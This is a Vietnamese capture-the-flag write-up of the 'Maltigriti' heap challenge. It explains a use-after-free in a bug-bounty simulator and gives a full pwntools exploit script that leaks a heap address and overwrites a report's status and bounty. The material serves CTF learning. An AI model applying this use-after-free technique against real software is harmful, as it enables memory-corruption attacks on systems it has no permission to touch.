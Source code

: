 # [1337UP-2023] Maltigriti

<p>Chương trình mô phỏng hệ thống bug bounty, cho phép đăng ký user, tạo report, gửi report,... Mọi report đều mặc định bị đánh dấu là duplicate (status = 'D'). Ta cần tìm cách chuyển trạng thái của report thành Accepted (status = 'A') và có tổng bounty >= 1337 để lấy flag. Nhìn vào pattern code ta có thể đoán được đây là dạng bài về heap -> Tập trung vào những đoạn thao tác malloc/free/read/write.</p>

<p>Trong hàm logout, <code>free(user->bio)</code> (dòng 94) nhưng không set con trỏ về NULL -> Use After Free.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post12/image.png)

<p>Hàm edit_user cho phép nhập kích thước của bio để malloc. Sau đó, dùng fgets để nhập dữ liệu vào vùng vừa malloc -> Vậy nếu như ta <code>free(user->bio)</code> (với kích thước của report khi malloc) rồi malloc ra report mới thì vùng nhớ của report mới sẽ trùng với vùng nhớ của bio trên heap. Cuối cùng, gọi hàm edit_user để ghi đè lên <code>report->status</code> và <code>report->bounty</code> rồi gọi hàm buy_swag_pack (case 5) để in flag. Còn một việc nữa là tính giá trị của <code>report->user</code> sao cho trùng với địa chỉ user trên heap sau khi đăng ký. Vì giá trị <code>report->user</code> đã trỏ tới user từ lúc tạo ra report mới nên sau khi tạo ra một report mới (kích thước bằng bio) thì giá trị tại địa chỉ mà <code>user->bio</code> trỏ tới sẽ bằng địa chỉ user - tức là ta có thể leak qua <code>user->bio</code> (dòng 72).</p> 

![alt text](/thanhlai/post/buffer_overflow/image/post12/image-1.png)

<p>Ta chọn option 0 và 3 để đăng ký user và tạo một report. Quan sát, tham số đầu tiên (giá trị của RDI) của hàm malloc là 0xc0 (192) byte.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post12/image-2.png)

<p>Tiếp theo, đăng ký user mới với kích thước bio là 192. Lúc này, <code>user</code> đang trỏ tới địa chỉ 0x5555555592a0 và <code>user->bio</code> đang trỏ tới địa chỉ 0x555555559300. Vậy nếu đúng như suy luận thì nếu như logout và tạo report mới thì địa chỉ mà <code>report</code> trỏ tới sẽ là 0x555555559300.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post12/image-3.png)

<p>Lúc này, <code>user->bio</code> và <code>report</code> đều trỏ tới 0x555555559300 -> Vậy là ta có thể kiểm soát dữ liệu của report qua hàm edit_user. Mà giá trị tại 0x555555559300 là 0x5555555592a0 -> Khi gọi hàm edit_user, sẽ leak địa chỉ user qua <code>user->bio</code>. Cuối cùng, cần lưu ý mặc dù <code>report->status</code> là 1 byte nhưng vẫn cần padding thêm 7 null byte nữa mới tới <code>report->bounty</code> (có vẻ compiler tự padding thêm để kích thước struct chia hết cho 8).</p>

![alt text](/thanhlai/post/buffer_overflow/image/post12/image-4.png)

<p>Script exploit:<p>

```
from pwn import *

p = process('./maltigriti')

def sla(msg, data): 
    return p.sendlineafter(msg, data)

sla(b'menu> ', b'0')
sla(b'Enter your name> ', b'thanhlai')
sla(b'Enter your password> ', b'thanhlai')
sla(b'How long is your bio>', b'192')
sla(b'Enter your new bio>', b'hehehe')

sla(b'menu> ', b'6')
sla(b'menu> ', b'2')
sla(b'Enter your report title> ', b'hehehe')
sla(b'Please enter the content of your report> ', b'hehehe')

sla(b'menu> ', b'1')
p.recvuntil(b"Your current bio is: ")
leaked_addr = u64(p.recv(6).ljust(8, b'\x00'))
payload = flat(
    p64(leaked_addr),
    p64(ord('A')),
    p64(1337)
)
sla(b'Enter your new bio> ', payload)

sla(b'menu> ', b'5')

p.interactive()
```

<p>Kết quả:</p>

![alt text](/thanhlai/post/buffer_overflow/image/post12/image-5.png)